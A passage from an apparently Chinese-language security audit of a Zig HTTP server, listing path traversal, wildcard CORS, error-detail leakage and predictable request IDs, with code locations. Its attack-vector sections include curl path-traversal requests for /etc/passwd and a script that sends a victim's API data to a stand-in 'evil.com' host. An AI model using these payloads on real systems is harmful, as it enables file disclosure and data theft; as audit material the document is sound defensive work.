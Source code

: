 **影响**:
- 🟡 **数据竞争**
- 🟡 **状态不一致**
- 🟡 **潜在内存损坏**

### 7. **路径遍历攻击**
**位置**: `src/libxev_http_engine.zig:495`
```zig
fn staticFileHandler(ctx: *Context) !void {
    // 静态文件处理未实现，但路由存在
    // 如果实现时没有路径验证，存在遍历风险
}
```

**攻击向量**:
```bash
# 路径遍历尝试
curl http://target/static/../../../etc/passwd
curl http://target/static/..%2f..%2f..%2fetc%2fpasswd
curl http://target/static/....//....//....//etc/passwd
```

### 8. **CORS配置错误**
**位置**: `src/libxev_http_engine.zig:309`
```zig
try response.setHeader("Access-Control-Allow-Origin", "*");
// 允许所有域名，存在安全风险
```

**攻击向量**:
```html
<!-- 恶意网站 evil.com -->
<script>
fetch('http://target/api/status', {
    credentials: 'include'
}).then(r => r.json()).then(data => {
    // 窃取敏感信息
    fetch('http://evil.com/steal', {
        method: 'POST',
        body: JSON.stringify(data)
    });
});
</script>
```

### 9. **信息泄露 - 详细错误信息**
**位置**: `src/libxev_http_engine.zig:326`
```zig
log.err("处理请求时出错: {any}", .{err});
// 可能泄露内部实现细节
```

### 10. **会话固定攻击**
**位置**: `src/middleware.zig:302`
```zig
const request_id = try std.fmt.allocPrint(ctx.allocator,
    "req-{d}-{d}", .{ timestamp, std.crypto.random.int(u32) });
// 请求ID生成可预测
```

---
